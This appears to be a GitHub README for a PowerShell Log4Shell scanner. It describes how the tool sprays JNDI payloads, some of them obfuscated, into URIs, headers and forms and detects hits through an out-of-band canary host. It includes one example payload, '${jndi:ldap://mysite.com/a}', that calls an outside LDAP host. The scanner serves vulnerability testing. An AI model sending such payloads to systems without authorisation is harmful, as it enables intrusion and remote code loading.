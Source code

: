 # Invoke-Log4ShellScanner
Powershell module for Log4Shell

### Usage:

>_PS>. .Invoke-Log4ShellScanner.ps1_  
>_PS>Invoke-Log4ShellScanner -Uri [sites file] -CanaryTokenDNS [canary token/ custom IP/DNS] -Headers [headers file] -Forms -Quick_  
>_PS>Invoke-Log4ShellFastScan -Uri [sites_file] -CanaryTokenDNS [canary token/ custom IP/DNS]_  
>_PS>Invoke-Log4ShellCheckForms -Uri [url_address] -Payload 

> * _-Uri_ - file that contains URLs to scan (https://example.com example in example-sites.txt)
> * _-CanaryTokenDNS_ - IP address or domain name of OOB service which provide us the logs
> * _-Headers_ - file that contains headers to test (all-headers.txt)
> * _-Forms_ - switch to enable forms checking [OPTIONAL]
> * _-Quick_ - switch to provide fast scan (only 2 payloads are being tested) [OPTIONAL]  
> * _-Payload_ - payload parameter (eg ${jndi:ldap://mysite.com/a})  

### Description  
The Invoke-Log4ShellScanner is a powershell script that provides 3 functions:  
1) _Invoke-Log4ShellScanner_  
The most advanced scan can test provided site pool for obfuscated payloads by sending GET,POST and optionally forms. The payload is placed inside the URI, choosen Headers and arguments of POST method and GET URI.  
2) _Invoke-Log4ShellFastScan_  
The simplest scan that uses basic payload and one obfuscated. Payload is placed inside the URI, parameter for GET method and "User-Agent" header.  
4) _Invoke-Log4ShellCheckForms_  
The function which perform checking the site (one URL) for forms and then placing the payload into the forms and send POST.  

The example files: _all-headers.txt, example-sites.txt_

# TODOS:  
[ ] The scanner cant crawl or spidering the site  
[ ] There are issues with some forms  
[ ] Port Scannner and possibilities to scan FTP/SQL and other potential services will be good.  
